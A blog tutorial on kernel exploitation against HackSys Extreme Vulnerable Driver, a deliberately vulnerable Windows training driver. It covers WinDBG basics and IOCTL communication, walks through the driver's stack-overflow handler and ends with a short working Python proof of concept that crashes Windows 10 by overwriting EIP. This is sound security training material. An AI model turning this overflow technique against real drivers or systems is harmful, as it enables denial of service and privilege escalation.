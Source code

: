 :slug: hevd-dos/
:date: 2020-09-14
:category: attacks
:subtitle: How to crash Windows
:tags: osee, training, exploit, windows, kernel, hevd
:image: cover.png
:alt: Photo by Caleb Woods on Unsplash
:description: This article will be the first approach to start exploting HackSys Extremely Vulnerable Driver with a Denial of Service
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/-Ifr1HGFeW8

= HEVD: Denial of Service

In the last link:../windows-kernel-debugging/[post], we were able to setup
a lab environment to start exploiting vulnerabilities in the Windows kernel
space.

This article will focus on the first steps to exploit the vulnerabilities
on HackSys Extreme Vulnerable Driver (`HEVD`).

First we need to get familiar with `WinDBG` which is a very powerful
debugger from Microsoft but has a steep learning curve. We'll also use
IDA, of which I'm using the freeware version which is enough for most of
what we're going to face.

In the end, we're going to be able to crash our Windows 10 OS by leveraging
a vulnerability on `HEVD`. It's nice to crash things for the sake of science.

Let's get our hands dirty!

== WinDBG 101

Before dealing with the exploitation process, I will list some WinDBG
commands that have helped me. This is selfishly written as a reference
for myself but kindly shared with you.

* `g`: Short for `Go`. Will resume the execution of the debugee.

image::g1.png[g command]

* `t`: Short for `Step Into`: Will execute the next instruction. If it's a
`call`, will jump into the call content.

* `p`: Sort for `Step Over`: Will execute the next instruction. If it's a
`call`, will execute whatever the call does and jump over it.

* `gu`: Short for `Step Out`: Will resume the execution until a `ret`
instruction is found. Useful when you `Step Into` a function and want to
return to the place it was called.

image::deb1.png[execution flow commands]

* `d*` family: Short for `Display Memory`. Will dump the contents of a given
memory address. The most useful variation on 32 bits debugging is
`dc` (dump double-word and ASCII chars).

image::dc1.png[dt command]

* `lm`: Short for `List Loaded Modules`. You can filter the ouput
using `lm m <module>`.

image::lm1.png[lm command]

image::lm2.png[lm m <module> command]

* `dt`: Short for `Display Type`. Used to list data structures.

image::dt1.png[dt command]

* `r`: Short for `Registers`. Will show the value of all the processor
registers and flags. It's also used to change the value of a register.

image::r1.png[r command]

* `u`: Short for `Unassemble`. Will show the instructions at the given
memory address.

image::u1.png[u command]

* `x`: Short for `Examine Symbols`. Will show the symbols at a given module.

image::x1.png[x command]

* `e*` family: Short for `Enter Values`. Will enter a given value to a
specified memory location. The most used variation on 32 bits debugging
is `ed` (enter double-word value).

image::ed1.png[ed command]

* `?`: Evaluate expression.

image::quest1.png[? command]

* `bp`: Short for `Breakpoint`: Will set a software breakpoint at given
address.

* `bl`: Short for `List Breakpoints`: List current breakpoints.

* `bc`: Short for `Clear Breakpoint`: Remove breakpoints.

image::bp1.png[? command]

This is by no means a comprehensive WinDBG reference but will show the
commands I use the most when debugging.

== Talking to Windows drivers

The common main goal of Windows Kernel exploitation is to elevate privileges
to perform any desired task on the affected computer with the most
powerful permissions. We do that, by finding a vulnerability in a piece of
code running at kernel-space and establishing a communication between the
OS user-mode (our exploit) and kernel-mode which is where the drivers live.

As Windows runs in protected mode, user-land instructions cannot
access to kernel-space memory. However, there is an interface provided
by the OS that allows to talk to drivers: `IOCTL` calls.

When a driver is installed, it sets a device name using the `IoCreateDevice`
call.

image::iocreatedevice1.png[IoCreateDevice]

It then defines the routines that will expose. Commonly, those routines are
basically functions that will interact with other layer of the OS
(Hardware Abstraction Layer or `HAL` for example) to manipulate a hardware
device. In `HEVD`, those routines are simply functions happening at kernel
level with several vulnerabilities.

Each routine is identified by a `IOCTL` (I/O control) code.

The driver will accept calls to that routines using `IRP` (I/O Request Packets)
structures and will set a handler that will dispatch the specific routine,
given a specific `IOCTL` code:

image::iohandler1.png[IrpHandler]

The `IrpDeviceIoCtlHandler` function in `HEVD` creates a jump table (like
a `switch` statement) for each managed `IOCTL` code:

image::jmptable1.png[JMP table]

In `HEVD`, each `case` of that `switch` statement is handled by another
function that will trigger a different vulnerability:

image::jmptable2.png[JMP table]

Now, if we want to talk to that driver, we must get a handle to the
driver's device name, which is `HackSysExtremeVulnerableDrive` in the
case of `HEVD`, and use the function `DeviceIoControl` to send the
`IOCTL` code we want, along with the payload.

In Python, there's a third-party package called `infi.wioctl` that wraps
those calls nicely:

[source,python]
----
from infi.wioctl import DeviceIoControl

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_CODE, PAYLOAD, SIZE, 0, 0)
----

With that, we can start looking for our fist vulnerability on `HEVD`.

== HEVD stack overflow

`HEVD` has several vulnerabilities built-in. In this post, we will discover
the most basic, a stack overflow.

When we look at the jump table generated by the `IrpDeviceIoCtlHandler`
function, the first case is this:

image::case1.png[Case 1]

Which is triggered when the `IOCTL` code is `2236419` decimal or `0x222003`
in hex. Here, a call to `BufferOverflowStackIoctlHandler` is performed.

Inside `BufferOverflowStackIoctlHandler`, there is a check verifying if
the `IRP` package contains user-supplied data. If it does, a call to
`TriggerBufferOverflowStack` is performed:

image::buffhandler1.png[BufferOverflowStackIoctlHandler]

You can also note that the pointer to the user data is placed on `EDX` and
the pointer to the size of the user data is placed on `EAX`. That information
is then pushed to the stack as the parameters for `TriggerBufferOverflowStack`.
You can see the same in the source code of `HEVD` :

[source,cpp]
----
NTSTATUS
BufferOverflowStackIoctlHandler(
    _In_ PIRP Irp,
    _In_ PIO_STACK_LOCATION IrpSp
)
{
    SIZE_T Size = 0;
    PVOID UserBuffer = NULL;
    NTSTATUS Status = STATUS_UNSUCCESSFUL;

    UNREFERENCED_PARAMETER(Irp);
    PAGED_CODE();

    UserBuffer = IrpSp->Parameters.DeviceIoControl.Type3InputBuffer;
    Size = IrpSp->Parameters.DeviceIoControl.InputBufferLength;

    if (UserBuffer)
    {
        Status = TriggerBufferOverflowStack(UserBuffer, Size);
    }

    return Status;
}
----

In the `TriggerBufferOverflowStack` function, the first important thing
to notice is that a `memset(&KernelBuffer, 0, 800h)` call is done:

image::trigger1.png[TriggerBufferOverflowStack]

This indicates that the buffer is `800h` or `2048` bytes long.

In the end of `TriggerBufferOverflowStack`, a call to
`memcpy(&KernelBuffer, &UserBuffer, SizeOfUserBuffer)` is performed,
which is a classic example of buffer overflow, because we control both the
`UserBuffer` data and the `SizeOfUserBuffer` value:

image::trigger2.png[TriggerBufferOverflowStack]

Great, it means that if we'd wanted to overflow the `KernelBuffer`
variable, we must inject a payload with more than 2048 bytes, using the
`IOCTL` code `0x222003`. Let's create our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow DoS.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-dos/
"""

from infi.wioctl import DeviceIoControl

DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'

IOCTL_HEVD_STACK_OVERFLOW = 0x222003
SIZE = 3000

PAYLOAD = (
    b'A' * SIZE
)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

And check it:

image::success1.gif[Success]

Great! We were able to overwrite `EIP` with our `A` buffer! Now the
target machine is completely unusable and our `DoS` attack was successful.

Also, as we could evidence in our previous
link:../tags/osce/[exploitation posts], when we control `EIP`, we control
the execution flow.

== Conclusions

This post was intended to cover the very first part for interacting
with a Windows driver and we were able to perform a full Denial of Service
of the victim machine. In the next post, we will use the proven ability
to control the execution flow to gain an `SYSTEM` shell.
